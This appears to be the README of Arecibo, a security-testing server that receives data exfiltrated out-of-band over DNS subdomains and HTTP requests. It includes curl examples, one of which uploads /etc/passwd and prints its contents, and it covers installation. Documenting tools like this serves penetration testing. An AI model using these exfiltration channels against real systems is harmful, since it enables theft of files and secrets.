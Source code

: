 # Arecibo
Endpoint for Out-of-Band Exfiltration (DNS & HTTP)

#### Authors
Juan Manuel Fernández ([@TheXC3LL](https://twitter.com/TheXC3LL)) & Pablo Martinez ([@Xassiz](https://twitter.com/Xassiz))


## DNS Exfiltration
Create a new token:
```
curl localhost:5000/generatedns

{"htoken": "c008b5dd22817c50441522f917c66743"} 
```
Now you can use this identificative token to do DNS resolutions (ABCD.c008b5dd22817c50441522f917c66743.x.yourdomain.com:

```
> test-exfiltracion.c008b5dd22817c50441522f917c66743.x.DOMINIO
Server:         127.0.0.1
Address:        127.0.0.1#53

Name:   DOMINIO
Address: 127.0.0.1
```

You can check the hits and the data exfiltrated via /hitsdns/TOKEN:

```
curl localhost/hitsdns/c008b5dd22817c50441522f917c66743

{"hits": [{"htoken": "c008b5dd22817c50441522f917c66743", "data": "test-exfiltracion", "id": 9, "timestamp": 1541748637.165287}]} 

```

If you want all the data concatenated use /dumpdns/token:

```
curl localhost/dumpdns/c008b5dd22817c50441522f917c66743

{"dump": "test-exfiltracionconcatenatedtootherinfo"}
```

## HTTP Exfiltration

Generate token:
```
curl localhost:5000/generatehttp

{"htoken": "2aa88ba02cbc0d6b72213fc117ae03dc"}
```

Now you can exfiltrate information through HTTP requests ( http://yourodmain.com/h/TOKEN). The GET / POST parameters, headers and IP will be registered by Arecibo. 

```
curl http://localhost:50000/h/2aa88ba02cbc0d6b72213fc117ae03dc
It works!
```

To retrieve de info, use /hitshttp/TOKEN:

```
 curl http://localhost:5000/hitshttp/2aa88ba02cbc0d6b72213fc117ae03dc
 
{"hits": [{"get": {}, "timestamp": 1541592259.541545, "headers": {"X-Real-Ip": "x", "Connection": "close", "Host": "x", "Accept": "*/*", "User-Agent": "curl/7.55.1"}, "htoken": "2aa88ba02cbc0d6b72213fc117ae03dc", "post": {}, "ip_address": "x"}]}
```

If you need to show an arbitrary HTML, HEADERS or status code use the POST method to set its values (body must be base64-encoded):

```
curl localhost:5000/generatehttp -H "Content-Type: application/json" --data '{"body" :"SGVsbG8gd29ybGQhIAo=", "headers":{"Server":"PWNED"}, "status" : 504}'
{
    "htoken": "324e18288eed54548392c5a65514b3dc"
}
```

## Dynamic DNS resolution
Arecibo resolves dominais with the schema X.Y.Z.A.ip.yourdomain.com as X.Y.Z.A:
```
> 10.0.0.1.ip.yourdomain.com
Server:         127.0.0.1
Address:        127.0.0.1#53

Name:   yourdomain.com
Address: 10.0.0.1
```

## File Transfer

Upload a file using /upload endpoint:
```
curl localhost:5000/upload -F 'x-file=@/etc/passwd'

{"htoken": "36981274bdb9cc833472681caeb82337"}
```

To download it use the generated token:

```
curl localhost:5000/download/36981274bdb9cc833472681caeb82337 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

## IP info

Shows client IP via /ip:

```
curl localhost:5000/ip
{"ip": "127.0.0.1"}
```

## Installing & Configuring

You need to install pdns & pdns-backend-pipe from your distro repos, and the modules flask & flask_restful for python.

1. Edit the configuration of arecibo-dns-backend.py with your values
2. Set execution privileges `chmod +x arecibo-dns-backend.py`
3. Edit pdns.conf (check where is in your distro)
```
setuid=1001
setgid=1001
launch=pipe
pipe-command=/your/path/arecibo-dns-backend.py
```
(Change the setuid/setgid for the values used to run the API script, they must be the same)

4. Run arecibo-api.py & pdns_server (check where is in your distro)

**YOUR SERVER MUST BE CONFIGURED AS AUTHORITATIVE DNS FOR YOUR DOMAIN**

